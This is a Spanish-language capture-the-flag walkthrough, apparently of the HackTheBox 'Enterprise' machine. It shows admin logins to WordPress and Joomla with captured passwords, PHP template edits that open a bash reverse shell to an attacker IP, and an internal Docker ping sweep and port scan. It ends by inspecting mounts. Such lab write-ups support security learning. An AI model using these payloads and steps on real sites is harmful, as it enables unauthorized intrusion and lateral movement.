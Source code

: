 --------------------------
# Part 3: Accediendo al sistema.

Entramos a wordpress por /wp-admin con el william.riker:u*Z14ru0p#ttj83zS6  

La manera de conseguir una reverse shell por wordpress es editar un tema en Appearence/Editor como 404.php  
```system("bash -c 'bash -i >& /dev/tcp/10.10.14.16/443 0>&1'");```
![enterprise4](https://user-images.githubusercontent.com/96772264/204105570-ea55f56e-15b1-4ad7-a497-9238995daf30.PNG)

Haces una peticion a http://enterprise.htb/?p=690 (no existe asi que salta 404)  
```console
www-data@b8319d86d21e:/var/www/html$ hostname -I
172.17.0.3
www-data@b8319d86d21e:/var/www/html$ for i in {1..254}; do (ping -c 1 172.17.0.${i} | grep "bytes from" | grep -v "Unrchable" &); done;
64 bytes from 172.17.0.2: icmp_seq=0 ttl=64 time=0.112 ms
64 bytes from 172.17.0.1: icmp_seq=0 ttl=64 time=0.126 ms
64 bytes from 172.17.0.3: icmp_seq=0 ttl=64 time=0.038 ms # wordpress
64 bytes from 172.17.0.4: icmp_seq=0 ttl=64 time=0.155 ms
```
Como el sistema no tiene nano hago en el mio un script para reconocer puertos  
```bash
#!/bin/bash
for host in 172.17.0.1 172.17.0.2 172.17.0.3 172.17.0.4; do
    echo -n "$host: "
    for port in $(seq 1 1000); do
        timeout 1 bash -c "echo '' >/dev/tcp/$host/$port" 2>/dev/null && echo -n "$port " &
    done; wait; echo
done
```
```console
└─$ cat ports.sh | base64 -w0
IyEvYmluL2Jhc2gKCmZvciBob3...

wwwww-data@b8319d86d21e:/tmp$ echo "IyEvYmluL2Jhc2gKCmZvciB..." | base64 -d | bash
172.17.0.1: 22 80 443 
172.17.0.2: 
172.17.0.3: 80 
172.17.0.4: 80 
```
Cada host salvo el 0.2 almacena una web, siendo la nuestra (wordpress) la 172.17.0.3  

Para el joomla he entrado con:  geordi.la.forge:ZD3YxfnSjezg67JZ **/adminsitrator**
En **/extensions/templates** seleccionar la protostar y luego editar error.php
```system("bash -c 'bash -i >& /dev/tcp/10.10.14.16/443 0>&1'");```
![enterprise5](https://user-images.githubusercontent.com/96772264/204105584-f5d1cb4d-c20c-46b2-a406-b5f3a9733473.PNG)
```console
www-data@a7018bfdc454:/var/www/html$ hostname -I
172.17.0.4 
```
Por tanto ya tenemos dos hosts comprometidos. Cuando tenemos un docker lo que hay que hacer es mirar monturas es decir carpetas heredadas de la maquina original,
suelen tener como usuario a root. Miramos en /var/www/html porque es la serie de archivos que el servidor ofrece a la red.  
```console
www-data@a7018bfdc454:/var/www/html$ find . -user root 2>/dev/null
./files
./files/lcars.zip

www-data@a7018bfdc454:/var/www/html$ mount -l | grep "files"       
/dev/mapper/enterprise--vg-root on /var/www/html/files type ext4 (rw,relatime,errors=remount-ro,data=ordered)
```
